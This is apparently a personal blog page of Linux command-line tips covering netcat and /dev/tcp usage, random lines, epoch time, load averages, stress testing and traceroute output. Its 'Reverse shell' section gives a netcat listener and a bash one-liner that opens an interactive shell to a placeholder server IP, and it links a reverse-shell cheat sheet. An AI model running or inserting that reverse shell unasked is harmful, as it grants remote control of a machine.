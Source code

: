 ```yaml
---
title: Linux CLI tricks
date: 2020-11-29
tags:
- revision
- linux
- cli
- bash
- tcp
- network
---
```


# Linux CLI tricks

# Send a string to an IP/port
```bash
telnet 127.0.0.1 80

(echo hello; sleep 1) | telnet 127.0.0.1 80

echo hello > /dev/tcp/127.0.0.1/80

echo hello | nc localhost 80
```

# Reverse shell
```bash
# server
nc -knvlp 3389

# client
bash -i >& /dev/tcp/server_ip/3389 0>&1
```

## See also
- https://tldp.org/LDP/abs/html/x17974.html
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- https://catonmat.net/bash-one-liners-explained-part-three
- http://docs.eggplantsoftware.com/epp/9.0.0/ePP/advovercoming_tcpip_connection_li.htm

# Target everything but one file
```
git add !(unit.md)
```

# Print a random line from a file
```bash
sed "$(( $RANDOM % $(cat readme.txt | wc -l) ))q;d" readme.txt

shuf readme.txt | head -1
```

# Epoch seconds
From bash 5.

```bash
$ echo $EPOCHREALTIME
1614870873.574544

$ echo $EPOCHSECONDS
1614870876
```

# uptime
The three load average values are 1, 5 and 15 minutes.

```bash
$ uptime
15:29:28 up 20:23, 0 users, load average: 5.08, 1.49, 0.51
```

# stress
Stress your system in different ways.

```bash
$ stress --cpu 8
```

# Number of processors
```
$ make -j $(nproc)
```

# Synonyms for localhost

```bash
localhost
127.0.0.1
127.0.0.2
127.0.0.3
127.1
0.0.0.0
0 # wut
```

# Move a file out of the way
```bash
mv {,_}.bash_history
```

# Verbose time
```
$ /usr/bin/time -v ls /
bin dev home lib lib64 lost+found mnt proc run snap sys usr
boot etc init lib32 libx32 media opt root sbin srv tmp var
Command being timed: "ls /"
User time (seconds): 0.00
System time (seconds): 0.00
Percent of CPU this job got: 100%
Elapsed (wall clock) time (h:mm:ss or m:ss): 0:00.00
Average shared text size (kbytes): 0
Average unshared data size (kbytes): 0
Average stack size (kbytes): 0
Average total size (kbytes): 0
Maximum resident set size (kbytes): 2412
Average resident set size (kbytes): 0
Major (requiring I/O) page faults: 0
Minor (reclaiming a frame) page faults: 126
Voluntary context switches: 1
Involuntary context switches: 0
Swaps: 0
File system inputs: 0
File system outputs: 0
Socket messages sent: 0
Socket messages received: 0
Signals delivered: 0
Page size (bytes): 4096
Exit status: 0
```

# Vendor IDs
View the latest on [ieee.org](http://standards-oui.ieee.org/oui.txt).

To install on Ubuntu:
```bash
sudo apt install --yes arp-scan
get-oui
```

# pushd equivalent
I use this all the time. Rather than `pushd` and `popd` to navigate around the file system:
```bash
# Navigate to new dir
cd ~/deanturpin.gitlab.io/content/post

# Return whence you came
cd -
```

# Last argument
I've used `esc shift -` to get the last argument from the previous command for a long time. But it's a little unweildy and you can do the same with `alt .`.

# MTR: "my traceroute"
Like tracepath/route but cooler.

```bash
My traceroute [v0.93]
BootCamp-0263E (172.25.71.53) 2021-04-10T13:22:42+0100
Keys: Help Display mode Restart statistics Order of fields quit
Packets Pings
Host Loss% Snt Last Avg Best Wrst StDev
1. BootCamp-0263E.7thsensedesign.local 0.0% 37 0.6 0.7 0.2 3.5 0.5
2. 192.168.0.1 97.2% 37 5.6 5.6 5.6 5.6 0.0
3. (waiting for reply)
4. brig-core-2b-xe-810-0.network.virginmedia.net 0.0% 37 11.6 15.1 11.1 32.4 4.6
5. (waiting for reply)
6. eislou2-ic-3-ae0-0.network.virginmedia.net 0.0% 37 22.1 26.5 20.0 51.8 7.5
7. 72.14.221.42 0.0% 37 22.7 25.1 20.4 46.0 5.4
8. 108.170.246.161 0.0% 37 19.2 23.4 18.7 39.5 5.0
9. 108.170.246.175 63.9% 37 23.3 28.1 22.9 45.5 6.6
10. 216.239.58.179 63.9% 37 22.2 29.2 22.2 62.7 10.7
11. 142.250.210.20 0.0% 37 101.4 104.0 98.5 111.8 3.4
12. 142.250.210.24 66.7% 37 115.7 114.8 110.2 123.0 3.3
13. 209.85.247.212 66.7% 37 115.7 114.9 108.7 131.7 6.5
14. 209.85.241.205 66.7% 37 111.9 116.2 111.2 129.3 5.0
15. (waiting for reply)
16. (waiting for reply)
17. (waiting for reply)
18. (waiting for reply)
19. (waiting for reply)
20. (waiting for reply)
21. (waiting for reply)
22. (waiting for reply)
23. (waiting for reply)
24. 35.185.44.232 0.0% 36 110.9 113.7 108.8 132.4 5.5
```

# See also
- https://github.blog/2015-06-08-how-to-undo-almost-anything-with-git/
